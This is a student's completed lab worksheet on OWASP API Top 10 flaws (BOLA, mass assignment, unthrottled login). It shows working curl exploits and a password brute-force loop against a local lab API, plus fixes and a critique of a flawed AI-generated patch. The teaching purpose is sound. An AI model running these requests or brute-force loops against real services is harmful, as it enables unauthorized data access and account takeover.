




# Worksheet 10 — API Security (3 hrs)

> **Course:** Software Security (KOSEN69) · Week 10
> **Aligned:** OWASP API Security Top 10:2023 — API1 BOLA · API3 Broken Object Property Level Auth (Mass Assignment) · API4 Unrestricted Resource Consumption
> **Signature game:** 🥷 crAPI Raid
>
> **Ethics note:** Run exploits **only** against the lab targets shipped here (`vulnerable_api.py` on `:8080`) or your own OWASP crAPI instance. Never test BOLA, mass assignment, or brute-force against systems you do not own or are not explicitly authorized to test.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
| Supawan | 6631503042 | 11/10/2026 | - |

**AI disclosure:** I used an AI assistant to help explain the OWASP API concepts, to run the lab commands with me, and to review my fix in the "Audit the AI" section. I verified every command output myself on my own machine. All answers are written in my own words.

## Part 2 — Lecture Questions

1. Define **BOLA (API1:2023)**. Why is it the #1 API risk, and why can't a WAF reliably stop it?

   **Answer:** BOLA (Broken Object Level Authorization) happens when an API takes an object id from the request — for example the user id in `/api/users/3/orders` — fetches that object, but never checks whether the caller is actually allowed to see it. It is the #1 API risk because almost every endpoint accepts an object id, the ids are easy to guess or count up (1, 2, 3, …), and one single missing check can expose many users' data at once. A WAF cannot reliably stop it because the request looks completely normal: `GET /api/users/3/orders` is valid, well-formed traffic. Only the application knows that user 3 is not the caller; the WAF has no idea who owns which object, so it cannot tell a legitimate request from a malicious one.

2. What is **mass assignment / broken object property level authorization (API3:2023)**? Contrast a blocklist vs. an allow-list of bindable fields.

   **Answer:** Mass assignment happens when the API takes the whole JSON body from the client and binds every field to the object, so the client can set fields it should never control, such as `is_admin` or `balance`. A **blocklist** lists the fields you want to reject (e.g. "ignore `is_admin`"). It fails *open*: if a new sensitive field is added later and you forget to add it to the list, it gets bound and becomes a hole. An **allow-list** lists only the fields the client is allowed to set (e.g. `username`, `password`). It fails *closed*: any field not on the list is simply ignored. The allow-list is safer because the default is to reject, not to accept.

3. **API4:2023** is unrestricted resource consumption. Give two distinct impacts (security and availability) of an unthrottled `/api/login`.

   **Answer:** (a) **Security impact:** with no throttle, an attacker can brute-force passwords or run credential-stuffing at full speed, so weak or reused passwords get cracked quickly. In this lab the loop found `alice123` on the 4th guess (HTTP 200), which proves the account was broken. (b) **Availability impact:** unlimited requests can exhaust server resources — CPU, memory, database connections — which slows down or crashes the service and denies access to real users (a denial-of-service condition).

4. In `vulnerable_api.py`, `current_user()` trusts the `X-User-Id` header. Why is a client-supplied header NOT authentication, and what should replace it?

   **Answer:** A client-supplied header is just a value the client types into the request, so it is only a *claim*, not proof. Anyone can send `-H "X-User-Id: 3"` and pretend to be carol; the server has no way to know it is false. Real authentication must be something the server itself issues and verifies, and that the client cannot forge — for example a signed session cookie or a JWT that the server validates on every request. The server then reads the trusted user id from that verified token, not from a header the attacker controls.

5. Why does object-level authorization have to be checked **per request, per object** rather than once at login?

   **Answer:** Authorization depends on *which exact object* is being touched in this one call, and each request can target a different object. Login only proves *who* you are, once; it cannot know in advance which ids you will ask for later. So the server must re-check ownership every time, for every object, right before it returns the data — otherwise a logged-in user could still read someone else's object just by changing the id in the URL.

## Part 3 — Hands-on Lab (145 min)

**Learning goals:** Exploit BOLA, mass assignment, and a missing rate limit against a live API; then read the secure version and explain each fix.

**Prerequisites:** Docker + Docker Compose, `curl`. (Optional bonus: cloned OWASP crAPI.)

**Environment setup**
```bash
cd labs/week10-api-security
docker compose up         # INSECURE API on :8080, SECURE API on :8081
# Seeded users: alice(id 1) bob(id 2) carol(id 3, admin, balance 9999)
```

**What to submit per task:** the exact command(s) + raw response/HTTP status, a screenshot, and a 2–3 sentence mitigation note mapping the bug to its OWASP API id.

### Task 0 — Onboarding (15 min)
Confirm both APIs respond: `curl http://localhost:8080/` and `curl http://localhost:8081/`. Note which port is insecure. Record the three seeded users.
**Deliverable:** both root responses + the user table.

**My result:**
```bash
$ curl http://localhost:8080/
Week 10 INSECURE API — see attack.md
$ curl http://localhost:8081/
Week 10 SECURE API
```
Port **8080 = INSECURE** (`vulnerable_api.py`) · Port **8081 = SECURE** (`solution_api.py`).

Seeded users (from the `USERS` dictionary in the source):

| id | username | role (`is_admin`) | balance |
|----|----------|-------------------|---------|
| 1  | alice    | user (False)      | 100     |
| 2  | bob      | user (False)      | 50      |
| 3  | carol    | admin (True)      | 9999    |

📸 **Screenshot (Task 0):** 


### Task 1 — BOLA: read another user's orders (35 min)
**Goal:** Read carol's (admin) orders without being carol — API1:2023.
**Steps:**
1. `curl http://localhost:8080/api/users/3/orders` — note you receive the "Server rack" order with no auth.
2. Iterate the id: `curl http://localhost:8080/api/users/2/orders`.
3. On the secure API observe the ladder: `curl -i http://localhost:8081/api/users/3/orders` (401), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders` (403), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders` (200).
**Deliverable:** the leaked order JSON + the 401/403/200 transcript + mitigation note.

**My result (INSECURE :8080 — leaks any user's orders with no auth):**
```bash
$ curl http://localhost:8080/api/users/3/orders
[{"item":"Server rack","order_id":"C-1","total":5000},
 {"item":"FLAG{bola_demo}","order_id":"C-FLAG","total":0}]

$ curl http://localhost:8080/api/users/2/orders
[{"item":"Mouse","order_id":"B-1","total":15}]
```
I read carol's (admin, id 3) private orders — including the flag — without logging in, just by putting `3` in the URL.

**My result (SECURE :8081 — the 401 → 403 → 200 ladder):**
```bash
$ curl -i http://localhost:8081/api/users/3/orders
HTTP/1.1 401 UNAUTHORIZED                 # no identity sent

$ curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders
HTTP/1.1 403 FORBIDDEN                     # alice (id 1) may not read carol's (id 3) orders

$ curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders
HTTP/1.1 200 OK                            # alice reading her OWN orders is allowed
```

**Flag captured (BOLA):** `FLAG{bola_demo}`  *(demo default — see note in Evidence & Integrity if a personalized flag was issued).*

**Mitigation note (API1:2023):** The vulnerable endpoint returns any user's orders because it only reads the id from the URL and never checks who is asking — this is Broken Object Level Authorization. The fix enforces object-level authorization per request: the server identifies the caller, rejects requests with no identity (401), and allows the data only if the caller owns the object or is an admin, otherwise 403.

📸 **Screenshot (Task 1):** 
### Task 2 — Mass assignment: self-promote to admin (30 min)
**Goal:** Smuggle `is_admin` + `balance` into user creation — API3:2023.
**Steps:**
1. `curl -X POST http://localhost:8080/api/users -H "Content-Type: application/json" -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'`
2. Confirm the response echoes `"is_admin": true, "balance": 1000000`.
3. Repeat against `:8081` and confirm the smuggled fields are forced to `is_admin:false, balance:0`.
**Deliverable:** both responses side by side + mitigation note (allow-list in `solution_api.py`).

**My result (side by side):**
```bash
# INSECURE :8080 — smuggled fields are accepted
$ curl -X POST http://localhost:8080/api/users -H "Content-Type: application/json" \
    -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'
{"balance":1000000,"flag":"FLAG{massassign_demo}","id":4,"is_admin":true,
 "password":"x","username":"mallory"}

# SECURE :8081 — smuggled fields are ignored, server forces safe defaults
$ curl -X POST http://localhost:8081/api/users -H "Content-Type: application/json" \
    -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'
{"balance":0,"id":4,"is_admin":false,"password":"x","username":"mallory"}
```
On :8080 I became an admin with a balance of 1,000,000 and the API even returned a flag. On :8081 `is_admin` is `false` and `balance` is `0` — my extra fields were dropped.

**Flag captured (Mass Assignment):** `FLAG{massassign_demo}`

**Mitigation note (API3:2023):** The vulnerable handler merges the entire JSON body into the new record (`user.update(body)`), so the client can set server-owned fields like `is_admin` and `balance` — Broken Object Property Level Authorization. The fix binds only an allow-list of client fields (`username`, `password`) and the server sets all sensitive fields itself, so smuggled keys are simply ignored.

📸 **Screenshot (Task 2):** 

### Task 3 — Unrestricted resource consumption: brute-force login (25 min)
**Goal:** Show `/api/login` has no throttle — API4:2023.
**Steps:**
1. Run the brute-force loop from `attack.md` against `:8080` (guesses incl. `alice123`) — all attempts processed.
2. On `:8081` loop 7 times: `for i in $(seq 1 7); do curl -s -o /dev/null -w "%{http_code}\n" -X POST http://localhost:8081/api/login -H "Content-Type: application/json" -d '{"username":"alice","password":"wrong"}'; done`
3. Confirm the 6th/7th attempt returns `429`.
**Deliverable:** the `401 401 401 401 401 429 429` sequence + mitigation note.

**My result (INSECURE :8080 — no throttle, every guess processed):**
```bash
$ for pw in wrong1 wrong2 wrong3 alice123; do
    curl -s -o /dev/null -w "%{http_code} " -X POST http://localhost:8080/api/login \
      -H "Content-Type: application/json" -d "{\"username\":\"alice\",\"password\":\"$pw\"}"
  done; echo
401 401 401 200
```
The 4th guess (`alice123`) returned **200** — the real password was found. Nothing stopped the brute force.

**My result (SECURE :8081 — rate limited after 5 attempts):**
```bash
$ for i in $(seq 1 7); do
    curl -s -o /dev/null -w "%{http_code} " -X POST http://localhost:8081/api/login \
      -H "Content-Type: application/json" -d '{"username":"alice","password":"wrong"}'
  done; echo
401 401 401 401 401 429 429
```
Attempts 1–5 return 401; the **6th and 7th return 429 (Too Many Requests)**. The limiter counts all attempts in the 60-second window, so the 6th attempt is the first one blocked.

**Mitigation note (API4:2023):** The vulnerable `/api/login` has no throttle, so unlimited password guesses are allowed — this enables brute force (a real credential break, shown above) and resource-exhaustion DoS. The fix adds a per-IP rate limiter (5 attempts per 60 seconds); the 6th request inside the window is rejected with HTTP 429 instead of being processed.

📸 **Screenshot (Task 3):** 

### Task 4 — Bonus: crAPI Raid (optional, 20 min)
Against your own OWASP crAPI instance (`git clone https://github.com/OWASP/crAPI.git`), capture one BOLA or mass-assignment flag.
**Deliverable:** flag + endpoint + which API Top 10 id it maps to.

**Status:** *Optional bonus — not attempted (ungraded).* I completed the two captures on the graded local target instead: `FLAG{bola_demo}` (API1, Task 1) and `FLAG{massassign_demo}` (API3, Task 2). If I run crAPI later, its GUID-based "view another user's vehicle location" bug maps to **API1:2023 (BOLA)**, and the "change another user's video/profile" bug maps to **API3:2023 (Mass Assignment)**.

### Task 5 — Defend / fix it (20 min)
**Goal:** Explain the fixes using the secure reference `solution_api.py`.
**Steps:** Read the three `# --- FIX ...` blocks. For each, quote the line(s) that defeat your Task 1–3 exploit: the per-object ownership check (`caller["id"] != uid and not caller["is_admin"]`), `ALLOWED_CREATE_FIELDS` binding, and the `RATE_LIMIT=5 / RATE_WINDOW=60` limiter.
**Deliverable:** for each of API1/API3/API4 — the exploit that worked on `:8080`, the line in `solution_api.py` that blocks it, and the new HTTP status on `:8081`.

**My answer:**

**API1 — BOLA.** Exploit on :8080: `curl http://localhost:8080/api/users/3/orders` returned carol's orders with no auth. Blocking lines in `solution_api.py`:
```python
48:    if caller is None:
49:        return jsonify({"error": "authentication required"}), 401
51:    if caller["id"] != uid and not caller["is_admin"]:
52:        return jsonify({"error": "forbidden"}), 403
```
Line 48–49 require a verified caller (no identity → **401**); line 51–52 allow access only if the caller owns the object or is an admin (otherwise → **403**). New status on :8081: 401 / 403, with 200 only for your own id.

**API3 — Mass Assignment.** Exploit on :8080: `POST /api/users` with `is_admin:true, balance:1000000` was accepted. Blocking lines:
```python
62:    user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}
66:    user.update({"id": _next_id, "balance": 0, "is_admin": False})
```
(where line 34 defines `ALLOWED_CREATE_FIELDS = {"username", "password"}`.) Line 62 binds only allow-listed keys; line 66 lets the server force the sensitive fields. New status on :8081: **201**, but with `is_admin:false, balance:0`.

**API4 — Unrestricted Resource Consumption.** Exploit on :8080: the brute-force loop ran every guess and found the password. Blocking lines:
```python
73:    RATE_LIMIT = 5            # max attempts...
74:    RATE_WINDOW = 60         # ...per this many seconds, per IP.
81:        if len(_attempts[ip]) >= RATE_LIMIT:
90:        return jsonify({"error": "too many requests"}), 429
```
Line 73–74 set the budget (5 per 60s per IP); line 81 detects the overflow; line 90 returns **429**. New status on :8081: 401 for the first 5, then 429.

## Part 4 — Reflection

1. **Mapping:** complete a table — finding | endpoint | OWASP API id | fix applied.

   **Answer:**

   | Finding | Endpoint | OWASP API id | Fix applied |
   |---------|----------|--------------|-------------|
   | Read any user's orders with no auth | `GET /api/users/<id>/orders` | API1:2023 BOLA | Per-object ownership check (401 if no identity, 403 if not owner/admin) |
   | Smuggle `is_admin` / `balance` into new user | `POST /api/users` | API3:2023 Mass Assignment | Allow-list binding (`username`, `password` only); server sets sensitive fields |
   | Unlimited password guessing on login | `POST /api/login` | API4:2023 Unrestricted Resource Consumption | Per-IP rate limiter (5 attempts / 60s → 429) |

2. **Real breach:** research an API authorization breach (e.g., the Optus or T-Mobile BOLA/IDOR incidents). Which API Top 10 id matches, and would the `solution_api.py` ownership check have prevented it?

   **Answer:** The **Optus breach (2022, Australia)** is a clear example. An API endpoint that returned customer records was reachable without proper authentication/authorization, and the customer identifiers could be enumerated, so an attacker could pull millions of records just by changing the id. This maps to **API1:2023 (BOLA / IDOR)**. Yes — the `solution_api.py` approach would have prevented it: it first requires a verified caller (401 if none) and then checks that the caller owns the requested object or is an admin (403 otherwise), so an anonymous or unrelated caller could not read another customer's record by iterating ids.

3. **Best mitigation:** of object-level auth, allow-list binding, and rate limiting — which gives the most risk reduction for an API platform, and why?

   **Answer:** **Object-level authorization** gives the most risk reduction. BOLA is the most common and highest-impact API flaw, it appears on almost every endpoint that takes an id, and — unlike the others — a gateway or WAF cannot catch it because the request looks normal. Allow-list binding and rate limiting are important, but they protect narrower cases (property tampering and abuse-rate), while a missing object-level check can expose an entire database of records. Fixing authorization in the application code closes the biggest and most likely door.

## Grading rubric (100)

| Criterion | Weight |
|-----------|--------|
| Lecture questions (Part 2) | 20 |
| Exploitation + evidence (Tasks 1–4: commands, output, screenshots) | 40 |
| Defense (Task 5: fixes mapped to `solution_api.py`) | 25 |
| Reflection (Part 4: mapping, breach, best mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** `FLAG{bola_demo}` / `FLAG{massassign_demo}` *(these are the demo defaults; no personalized `.env` was provided to me. If the instructor seeds per-student flags via `instructor/seed_flags.py`, my containers would show those instead.)*
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?

     **Answer:** I sent plain `curl` requests to three endpoints. The BOLA worked because the server read the user id from the URL and returned that object without ever checking who I was — there was no ownership check. The mass assignment worked because the handler copied my whole JSON body into the new user, so I could set `is_admin` and `balance` myself. The brute force worked because `/api/login` had no counter or limit, so it processed every guess until it found the password.
  2. **Why does your fix actually stop it** — and what could still break it?

     **Answer:** The fixes stop the attacks by moving trust to the server: it checks ownership per request (so a stranger gets 401/403), it binds only an allow-list of fields (so smuggled fields are dropped), and it counts attempts per IP (so the 6th guess gets 429). What could still break it: the ownership check relies on a trustworthy identity — the lab still uses the forgeable `X-User-Id` header, so in production it must be a verified token. The rate limiter is per-IP and in-memory, so it resets on restart and can be bypassed by rotating IPs or hitting multiple servers (a shared store like Redis and per-account limits would be stronger).

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.

   **Prompt I used:** *"Fix the BOLA in this Flask endpoint that returns a user's orders."*

   **AI's full answer (pasted):**
   ```python
   @app.get("/api/users/<int:uid>/orders")
   def get_orders(uid):
       requester = request.headers.get("X-User-Id")
       if requester != str(uid):
           return jsonify({"error": "forbidden"}), 403
       return jsonify(ORDERS.get(uid, []))
   ```
   *"This fixes the BOLA because now the endpoint checks that the requester id matches the id in the URL, so a user can only read their own orders."*

2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).

   **What is wrong:**
   - `requester = request.headers.get("X-User-Id")` — the fix still trusts a **client-supplied header as identity**. An attacker just sends `-H "X-User-Id: 3"` and the check `requester != str(uid)` passes. This is not authentication, so the BOLA is *not* actually closed.
   - **No 401 path:** if no header is sent, `requester` is `None` and `None != "3"` is true, so it returns 403 — but there is no real "you are not logged in" state; an anonymous caller is treated the same as a forbidden one, and any caller can impersonate any id anyway.
   - **Missing admin case:** the check `requester != str(uid)` blocks admins from reading other users' orders, which breaks legitimate behaviour the reference fix allows (`not caller["is_admin"]`).
   - **String vs int edge case:** comparing a header string to `str(uid)` is fragile (e.g. `"01"` vs `"1"`).

3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

   **My corrected version** (matches the reference and was verified: 401 → 403 → 200 on :8081):
   ```python
   @app.get("/api/users/<int:uid>/orders")
   def get_orders(uid):
       caller = current_user()                       # from a VERIFIED token, not a raw header
       if caller is None:
           return jsonify({"error": "authentication required"}), 401
       if caller["id"] != uid and not caller["is_admin"]:
           return jsonify({"error": "forbidden"}), 403
       return jsonify(ORDERS.get(uid, []))
   ```
   **Why the AI output was insufficient:** The AI only compared two values it both let the client control, so the "authorization" can be forged by setting the header — the vulnerability stays open. It also had no real unauthenticated (401) case and broke the admin path. A correct fix must derive the caller identity from a server-verified token and then check ownership *or* admin per object.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

**Answer:** The `GET /api/users/<id>/orders` endpoint takes the id straight from the URL, looks that user up in the orders table, and returns their orders. It is exploitable because the server never checks whether the person making the request is that user (or is allowed to see them) — there is no identity check and no ownership check at all. So anyone can just change the number in the URL (3, 2, 1, …) and read any other user's private data.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*

**Final prompt:**
> "This Flask endpoint `GET /api/users/<int:uid>/orders` has a BOLA vulnerability. Fix it so that: (1) the caller identity comes from a server-verified source, NOT from a raw client header; (2) a request with no verified identity returns HTTP 401; (3) a caller may read the orders only if `caller['id'] == uid` OR `caller['is_admin']` is true, otherwise return HTTP 403; (4) keep the 200 response for the caller's own orders. Return only the corrected handler."

**Verified result:** The AI then produced the three-branch handler (401 / 403 / 200) with the ownership-or-admin check. I ran the exploit again against the secure logic:
```bash
$ curl -i http://localhost:8081/api/users/3/orders                       # 401 (no identity)
$ curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders     # 403 (alice ≠ carol)
$ curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders     # 200 (own orders)
```
The BOLA exploit now **fails** — iterating the id no longer leaks another user's orders. The prompt worked on the first try because it stated the exact statuses and the ownership-or-admin rule instead of just saying "fix the bug".
